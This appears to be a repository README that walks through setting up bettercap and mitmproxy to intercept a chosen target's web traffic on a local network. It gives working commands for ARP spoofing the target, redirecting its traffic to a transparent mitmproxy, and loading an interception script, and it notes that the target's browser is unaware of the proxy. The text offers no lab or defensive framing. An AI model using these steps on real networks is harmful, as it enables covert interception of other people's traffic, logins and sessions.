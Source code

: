 How to set up mitmproxy with bettercap
======================================
Step 1: make sure desired port is unused (8080 in this context)
-----------------------------------------------
- mitmproxy will listen on this port

Step 2: run bettercap with following command:
----------------------------------------------
```bash
./init.sh
```
- this will set up bettercap with necessary parameters

Step 3: set target and let bettercap redirect traffic to mitmproxy
---------------------------------------------------
```bettercap
set arp.spoof.targets <IP ADDRESS OF TARGET>
any.proxy on
arp.spoof on
```
- you can use `net.show` to let bettercap display hosts that are up in the local network

Step 4: run mitmproxy with following code:
------------------------------------------
```bash
sudo mitmproxy --mode transparent -p 8080 -s agent.py --set block_global=false
```
- mitmproxy has to run in transparent mode because target browser is unaware of the proxy
    - normally, the browser knows if mitmproxy is listening and this requires manual setup on the browser side
    - transparent mode goes under the assumption that the browser isn't aware of it listening (necessary for intercepting)
- -s agent.py tells mitmproxy which python script to use
